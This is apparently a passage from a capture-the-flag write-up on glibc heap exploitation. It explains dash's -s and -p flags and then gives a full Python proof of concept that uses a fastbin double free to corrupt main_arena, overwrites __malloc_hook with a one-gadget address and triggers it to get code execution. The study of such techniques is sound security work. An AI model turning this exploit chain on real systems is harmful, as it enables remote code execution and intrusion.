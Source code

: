 By browsing the `dash` manual page, we can see there is a possible trick. \
By stating a `-s` flag, the shell reads commands from stdin, and stops parsing the `argv, envp` parameters. \
This is equivalent to `argv[1] == NULL` - which is exactly what we want.

Another cool trick with `dash` is passing the `-p` flag, which keeps the euid bit of the shell on (may be useful for `suid` binaries). 

Full RCE PoC:

```python
# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, b"A"*8)
chunk_B = malloc(0x48, b"B"*8)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

# Write the quadword 0x61 at the main arena
malloc(0x48, p64(0x61))
# Request two more chunks, so the head of the 0x50 fastbin is now user controlled (0x61)
malloc(0x48, b"C"*8)
malloc(0x48, b"D"*8)

# Request two 0x60-sized chunks.
chunk_C = malloc(0x58, b"E"*8)
chunk_D = malloc(0x58, b"F"*8)

free(chunk_C)
free(chunk_D)
free(chunk_C)

# Set the fake chunk address
fake_chunk = p64(libc.sym.main_arena + 32)
malloc(0x58, fake_chunk)

# Request two allocations for setting a new head for the 0x60 fastbin
# This apperently controls argv[1], set it to "-s" to ignore bad pathnames
malloc(0x58, b"-s\x00")
malloc(0x58, b"Y"*8)

# set top chunk to point to __malloc_hook. Added 4, so its size field wont be too large
new_top = p64(libc.sym.__malloc_hook - 40 + 4)
malloc(0x58, b"H"*48 + new_top)

# overwrite __malloc_hook with one gadget. Note there is no fastbin[0x40], so allocations will be made by the top chunk
malloc(0x28, b"A"*20 + p64(libc.address + 0xe1fa1))

# trigger malloc_hook
malloc(0x18, b"AAAA")
```
